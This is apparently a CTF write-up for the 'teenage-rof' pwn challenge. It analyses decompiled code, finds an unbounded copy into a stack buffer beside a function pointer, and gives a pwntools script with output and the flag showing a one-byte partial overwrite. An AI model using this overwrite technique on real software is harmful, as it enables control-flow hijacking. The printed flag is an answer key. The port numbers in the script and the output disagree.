


# teenage-rof


**Author:** `thek0der`  
**Solves:** 36

**writeup made by** `lifip27`
---

## Description

Wait, they said this language doesn't work like that...

We get `teenage-rof`

## Analyzing

I ran `checksec` on the binary:
```bash
$ checksec teenage-rof
[*] '/home/lifip/teenage-rof'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
```

**Importants!**   
No stack canary → stack overwrites are possible without immediate detection.   
NX enabled → attacker must reuse code (no code injection).   
PIE enabled → addresses are randomized; full-pointer overwrite normally needs a leak.

Looking inside the main function we can get to this part:
```c
LABEL_82:
    sub_17A00();
  }
  sub_3F2F0();
  __writefsqword(0xFFFFFFF8, (unsigned __int64)&qword_50068);
  sub_6949(sub_7776);
  if ( dword_50064 != 3 )
  {
    LOBYTE(v26[0]) = 1;
    fds.sa_handler = (__sighandler_t)v26;
    sub_6280(&dword_50064, 0LL, &fds, &unk_4F358, &off_4EFD0);
  }
```

`Main` hands control to `sub_7776` which is THE interactive menu!



Relevance from `sub_7776`:
```c
sub_C1C5(&v14, v2, 1LL);
v21 = v15;
if ( (_DWORD)v14 != 1 )
{
  src = v16;
  ...
  v3 = sub_409B0(&qword_50080, src, v2);
  v5 = v4;   // or v5 = v9 in the other branch — either way v5 gets the out-value from sub_409B0
  ...
  memcpy(dest, src, v5);    // copy exactly v5 bytes from src into stack buffer dest
  ...
  sub_C23E(v21, v6);
}
```

**What this shows:**   

`src = v16` — the caller stores a pointer (`v16`) into its local variable `src`.

It calls `sub_409B0(&qword_50080, src, v2)` — passing `src` as the `a2` argument to the callee, and `v2` as the requested size `a3`.

After the call, the caller reads the out-slot (the callee wrote `* (a1+2)`) into `v5` (`v5 = v4` or `v5 = v9` depending on branch).

Then the caller does `memcpy(dest, src, v5)` — copying `v5` bytes from the exact buffer (`src`) that was filled by `sub_409B0` into the stack buffer `dest`.

Now inside `sub_409B0`:
```c
__int64 __fastcall sub_409B0(char **a1, char *a2, unsigned __int64 a3)
{
    unsigned __int64 v11;

    // read from stdin into a local buffer v8 (-> later copied to a2)
    v11 = read(0, v8, v10);          // read(0, buffer, requested)
    if ( v11 == -1LL )
    {
        // error handling...
    }
    else
    {
        v7 = v11;                    // v7 := number of bytes read
    }

    ...
    // copy the bytes read into the caller's buffer a2 
    if ( v17 == 1 )
    {
        *a2 = *v18;                  // single-byte fast path
    }
    else
    {
        memcpy(a2, v20, v17);        // copy v17 bytes INTO a2 (the caller's buffer)
    }

    // write the consumed-count back into caller-visible slot a1[2] 
    *v4 = v22;                       // where v4 == (unsigned __int64 *)(a1 + 2)
    return 0LL;
}
```
**Simplified**:   

`sub_409B0` executes `read(0, ...)` and `memcpy(a2, ..., to_copy)` and writes `to_copy` into `a1[2]`;      

`sub_7776` calls `sub_409B0(&qword_50080, src, requested)` and then performs `memcpy(dest, src, out_bytes)` where `out_bytes` is the exact value written by `sub_409B0`. Therefore the program copies exactly the number of bytes we supplied on stdin into dest with NO bounds checking.

### Next

Know that we know how the binary uses our input let's find the vulnerability!

Inside `sub_7776` we can see this:
```c
  _BYTE dest[32]; // [rsp+A0h] [rbp-68h] BYREF
  void (*v26)(void); // [rsp+C0h] [rbp-48h]
  __int64 (__fastcall *v27)(); // [rsp+C8h] [rbp-40h]
  __int64 (__fastcall *v28)(); // [rsp+D0h] [rbp-38h]
```

Stack layout (function pointer sits right after a `32-byte` buffer)

```c
          v3 = sub_409B0(&qword_50080, src, v2);
          v5 = v4;
          ...
          v3 = sub_409B0(&qword_50080, src, v2);
          v5 = v9;
          ...
          v6 = src;
          memcpy(dest, src, v5);
```

The input read and UNBOUNDED copy into `dest`

```c
      case 2LL:
        v26();
        v0 = 0LL;
        continue;
```
Later, the overwritten function pointer is invoked. Control-flow hijack!

We also found a function named `sub_6A65` that prepares the flag.txt for us!



We need to find a way to call this function so we can get the flag!

## Solve

One more thing is that we don’t need a leak. The local function pointer called by the menu is initialized to `sub_6A31`. So the steps into getting flag are:   

1. write **32** bytes of padding to fill `dest`
2. then write **one byte** `0x65` to flip the pointer from `..6A31` to `..6A65`
3. then trigger the call site via the **run** option.

No GOT/ROP, no base leak  
just a **1-byte overwrite**

The solve.py
```python
from pwn import *
p = remote('ctf.ac.upt.ro', 9437)  
p.sendline(b'1')                   # write
p.sendline(b'33')                  # length
p.send(b'A'*32 + b'\x65')          # 32 pad + 1-byte LSB flip
p.sendline(b'3')                   # run -> calls win
print(p.recvall(timeout=4).decode('latin-1', 'ignore'))
p.close()
```
Running the script to get the flag!

```bash
$ python3 teenage.py
[+] Opening connection to ctf.ac.upt.ro on port 9834: Done
[+] Receiving all data: Done (165B)
[*] Closed connection to ctf.ac.upt.ro port 9834
1 write
2 show
3 run
4 exit
n bytes:
ok
1 write
2 show
3 run
4 exit
CTF{ed30505bbe7a651829d9d747f7af11677c7c3ff8f4e871a5269920c961765747}1 write
2 show
3 run
4 exit
```

### Flag: CTF{ed30505bbe7a651829d9d747f7af11677c7c3ff8f4e871a5269920c961765747}